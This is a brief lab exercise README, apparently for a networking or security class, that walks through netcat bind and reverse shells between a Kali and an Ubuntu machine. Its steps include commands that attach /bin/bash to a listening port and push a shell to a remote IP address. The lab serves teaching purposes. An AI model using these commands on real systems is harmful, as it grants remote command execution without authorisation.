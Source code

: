 # Bind and reverse shells

## Required Machines
- Kali
- Ubuntu

## Steps
1. Open a terminal on each instance (__ubuntu__ and __kali__)
2. `Bind shell:` Run `nc –l –p 1337 –e /bin/bash` on the __kali__ instance
3. Run `nc kali 1337` on the __ubuntu__ instance to access the bound shell
4. You can run commands like `uname -a` and `whoami` to verify you've got a shell on the Kali box
5. `Reverse Shell:` Run `nc –l –p 1337` on the __ubuntu__ instance to prepare for an incoming reverse shell
6. Run `nc 198.168.64.4 1337 –e /bin/bash` on the __kali__ instance
7. Verify the reverse shell on the __ubuntu__ instance as you did before

## FAQ
### Why am I shelling to ubuntu and not from ubuntu?
Turns out Ubuntu comes with the BSD format of netcat which does not include the `-e` "execute on connection" flag, so it's not as simple to demonstrate remote shelling. Netcat on the Kali instance _does_ have this flag. 

## Presentation covering this:
`4 - Networking is important in the tech industry.pdf`